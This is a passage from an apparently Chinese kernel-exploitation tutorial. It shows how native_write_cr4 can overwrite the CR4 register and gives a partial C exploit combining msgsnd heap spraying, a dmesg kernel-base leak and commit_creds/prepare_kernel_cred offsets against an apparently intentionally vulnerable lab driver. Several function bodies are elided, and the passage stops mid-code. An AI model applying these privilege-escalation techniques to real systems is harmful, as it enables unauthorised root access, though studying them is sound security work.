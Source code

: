 这个函数是一个内核级的函数，如果可以控制函数执行流以及第一个参数，我们就可以向`CR4`寄存器写入任意值。

函数在`/v4.6-rc1/source/arch/x86/include/asm/special_insns.h#L82`处实现：

```
static inline void native_write_cr4(unsigned long val)
`{`
    asm volatile("mov %0,%%cr4": : "r" (val), "m" (__force_order));
`}`
```

而我们此处的堆喷利用恰好满足条件，那么我们结合堆喷以及之前泄露内核加载基址的方式可以得到以下利用代码：

```
//gcc ./exploit.c -o exploit -static -fno-stack-protector -masm=intel -lpthread
#include &lt;sys/mman.h&gt;
#include &lt;sys/wait.h&gt;
#include &lt;unistd.h&gt;
#include &lt;string.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;arpa/inet.h&gt;
#include &lt;sys/stat.h&gt;
#include &lt;fcntl.h&gt;
#include &lt;sched.h&gt;
#include &lt;sys/ioctl.h&gt;
#include &lt;sys/types.h&gt;
#include &lt;stdio.h&gt;
#include &lt;sys/ipc.h&gt;
#include &lt;sys/msg.h&gt;
#include &lt;sys/socket.h&gt;

#define sys_ioctl_offset 0x22FB79
#define BUFF_SIZE 0x60
#define GREP_INFOLEAK "dmesg | grep SyS_ioctl+0x79 | awk '`{`print $3`}`' | cut -d '&lt;' -f 2 | cut -d '&gt;' -f 1 &gt; /tmp/infoleak"

void init()`{`
    ......
`}`

size_t user_cs, user_rflags, user_ss, user_rsp;

size_t native_write_cr4_addr = 0x64500;
size_t prepare_kernel_cred_addr = 0xA40B0;
size_t commit_creds_addr = 0xA3CC0;

void save_user_status()`{`
    ......
`}`

int heap_spray_msgsnd(int fd, size_t target, size_t arg)`{`
    ......
`}`

void leak_kernel_base()`{`
    ......
`}`

int main(int argc,char * argv[])`{`
    init();
    save_user_status();
    leak_kernel_base();

    int fd = open("/dev/vulnerable_device",0);
    if (fd &lt; 0)`{`
        puts("open fail!");
```